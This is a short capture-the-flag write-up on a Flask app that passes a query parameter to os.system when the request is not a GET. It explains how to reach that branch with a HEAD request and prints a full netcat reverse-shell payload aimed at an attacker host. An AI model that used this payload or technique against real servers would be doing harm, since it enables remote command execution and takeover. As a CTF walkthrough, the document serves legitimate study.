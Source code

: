 Given the source code for the web

```python
#!/usr/bin/env python3
from flask import Flask, request
import os

app = Flask(__name__)

@app.route('/' , methods=['GET'])
def index():
    c = request.args.get('c', '')
    if not c:
        return "hmm gimme something"

    if request.method == 'GET':
        ''
    else:
        os.system(c)
    return c

app.run(host='0.0.0.0', port=1337)
```
This Flask application has a potential security vulnerability because it allows arbitrary command execution through the os.system(c) line when the else branch is triggered. The input ```url/?c=``` comes directly from the query string, which means that an attacker could inject any command via the URL and execute it on the server.

But in the initial state the web uses a GET method as the request and looking at the source code

```python
def index():
    c = request.args.get('c', '')
    if not c:
        return "hmm gimme something"

    if request.method == 'GET':
        ''
```
if the method being use is a GET request we get nothing. Now look a the ```else``` condition
```python
 else:
        os.system(c)
    return c
```
so if we make use of another request method like HEAD, which is a request method that was allowed, we will be able to get the vulnerability. which is command injection

so the payload used was ``` curl -I http://url/?c=`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc <attacker IP> <port> >/tmp/f` ```  this payload was used beacuse it was a blind command injection . This will get us a reverse shell and we can get the flag
